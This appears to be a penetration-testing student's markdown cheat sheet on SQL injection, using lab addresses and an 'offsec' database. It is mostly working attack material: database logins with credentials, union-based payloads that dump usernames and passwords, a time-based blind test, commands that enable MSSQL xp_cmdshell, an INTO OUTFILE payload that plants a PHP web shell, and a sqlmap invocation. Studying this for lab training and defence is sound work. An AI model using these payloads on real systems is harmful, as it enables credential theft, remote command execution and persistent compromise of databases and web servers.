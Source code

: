 # SQL Entry point
- mysql ``` mysql -u root -p'root' -h 192.168.186.16 -P 3306```
- Interesting info

    ``` database(), user(), @@version
- mssql ``` impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth ```
    
    Get tables: ``` select * from {datatable}.information_schema.tables; ```

    ![alt text](image.png)

    example: ```table = offsec.dbo.users```

# Manual SQL exploit

## Union based payload
``` %' UNION SELECT database(), user(), @@version, null, null -- // ```

``` ' UNION SELECT null, username, password, description, null FROM users -- // ```

- Requires same number of columns & Usually first column union will be ignore (ID column)

## Blind SQL
- boolean/time-based checking

``` ' AND IF (1=1, sleep(3),'false') -- // ```
- test if something is exist : yes = do sleep 3 seconds

# SQL Shellcode excution
## Manual shell
- mssql shell

    ``` 
    EXECUTE sp_configure 'show advanced options', 1;

    EXECUTE sp_configure 'xp_cmdshell', 1;```

- mysql shell

    care about column number

    ```
    ' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
    ```

## Automated 
- BANNED
- mysql
    ``` sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user ```



